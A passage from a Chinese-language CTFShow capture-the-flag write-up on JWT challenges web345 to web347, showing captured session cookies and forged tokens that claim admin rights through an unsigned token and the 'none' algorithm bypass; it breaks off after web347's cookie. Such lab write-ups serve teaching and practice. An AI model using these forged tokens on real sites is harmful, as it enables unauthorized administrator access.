 开始转换

```
eyJhbGciOiJIUzI1NiIsInR5cCI6Imp3dCJ9.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2OTYzMTc1NjEsImV4cCI6MTY5NjMyNDc2MSwibmJmIjoxNjk2MzE3NTYxLCJzdWIiOiJhZG1pbiIsImp0aSI6IjU0ZmFhNGJkMzEwODQ5OWJlZTIxOTM2N2M5MGJjMDlkIn1d.
```

由于无签名认证，只取前面的部分。

获得flag。

![](F:/CTFShow-Web/Web入门/jwt/web345/flag.png)



### web346

启动靶机，进入环境。一个熟悉的where is flag?

然后又是/admin，抓包

得到了Cookie:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5NjMyMDE5NiwiZXhwIjoxNjk2MzI3Mzk2LCJuYmYiOjE2OTYzMjAxOTYsInN1YiI6InVzZXIiLCJqdGkiOiI1ZmMwYWQwMWFkZTgzNDBmNGM2ODRiMzkyMDk5NjZhOCJ9.K4uexoNrg9Yw6bxg2e3GcoJTXvwXYC5HLQat0PjGzdw
```

![](F:/CTFShow-Web/Web入门/jwt/web346/Cookie检查.png)

HS256&Invalid Signature

使用None算法绕过签名，将alg更改为none。

构造payload：(此处必须使用脚本)

```
eyJhbGciOiAiTm9uZSIsInR5cCI6ICJKV1QifQ.eyJpc3MiOiAiYWRtaW4iLCJpYXQiOiAxNjk2MzIwMTk2LCJleHAiOiAxNjk2MzI3Mzk2LCJuYmYiOiAxNjk2MzIwMTk2LCJzdWIiOiAiYWRtaW4iLCJqdGkiOiAiNWZjMGFkMDFhZGU4MzQwZjRjNjg0YjM5MjA5OTY2YTgifSA.
```

重放，得到flag



### web347

启动靶机，进入环境。一个熟悉的where is flag?

然后又是/admin，抓包

Cookie:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTY5NjMyMTQ4OCwiZXhwIjoxNjk2MzI4Njg4LCJuYmYiOjE2OTYzMjE0ODgsInN1YiI6InVzZXIiLCJqdGkiOiJmZjczMGQ5Yjc5YTEyZWY5NTI2OTgyZjYxZDkxYjRiZCJ9.R_0R8ShiZNQNNle6H4s_prdGLLNJjbYm5YyenY7CJww
```
